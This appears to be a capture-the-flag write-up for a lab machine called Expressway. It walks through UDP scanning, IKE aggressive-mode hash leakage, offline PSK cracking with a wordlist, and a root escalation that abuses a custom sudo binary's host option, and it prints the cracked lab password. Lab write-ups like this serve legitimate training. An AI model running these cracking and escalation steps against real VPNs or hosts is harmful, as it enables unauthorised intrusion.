## Reconnaissance

### Port Scan

We began scanning for open ports and services running on them.
```bash
nmap -sCV -T4 -A 10.10.11.87
```


Only SSH showed on TCP scans.

So I stareted scanning for other services. I started with UDP.
```bash
nmap -sUV -T4 10.10.11.87
```



### UDP Highlights
69/udp : tftp
500/udp : ISAKMP/ike(open) ---> Suggests IPSec VPN

## IKE Enumeration and exploitation

Seeing ike on port 500, it may be running IPSec VPN.
ISAKMP is a common vpn service.
Let's run a main mode scan on the target.
```bash
sudo ike-scan -M 10.10.11.87
```


It requires PSK(Pre Shared Key) for Authentication and the it uses 3DES+SHA1 encryption.
This type of encryption is considered weak.
It is leaking information such as VID(Vendor ID).
Let's run an aggressive mode scan and see if it leaks any sensitive information.

```bash
sudo ike-scan -M -A -Pp.txt 10.10.11.87
```



It returned an ID and hash.
```ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)``` ike identity was leaked.
A 20-byte PSK hash was returned and saved it in p.txt


### PSK Cracking

Let's try to crack the hash.

```bash
sudo ike-scan -M -A 10.10.11.87 -n ike@expressway.htb -Pout.txt
```
Now we will have our PSK in out.txt.

Let's run an offline dictionary on it.We can use hashcat for psk-crack.

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt out.txt
```


### User flag

Now we have the credentials.
Username : ike
Password: freakingrockstarontheroad



We found the user flag.

## Privilege Escalation

Let's check our group.
```bash
groups
```


```bash
sudo -l
``` 
This returned a custom message, instead of "not in sudoers" text



So I checked which binary was running

```bash
sudo -V
```


/usr/local/bin/sudo instead of /usr/bin/sudo, so it shows that this is a custom SUID root binary and it may be potential attack vector.

After some searching regarding proxy group, I found that it may have access to senstive log files at /etc/squid or /etc/haproxy. So i just checked for all log files.

```bash
find / -name "*.log.*" 2>/dev/null
```


For squid proxy /var/log/squid/access.log.1 is useful because it records every http request made through the proxy.Since we have read access to that files, we can read them.

```bash
cat /var/log/squid/access.log.1
```


This log revealed an internal-only hostname.

## Exploitation

What we found until now:
1. We found custom SUID root binary at /usr/local/bin/sudo .
2.A custom denial message for sudo.
3.An internal-only hostname(offramp.expressway.htb).

sudo supports -h flag(used to specify hostname), which in our case is offramp.expressway.htb. So i tried to connect to it using our local sudo binary.

```bash
/usr/local/bin/sudo -h offramp.expressway.htb -i
```
Here -i flag stands for login, with that  we are asking our shell to provide us with an interactive root shell.



We found the root flag.
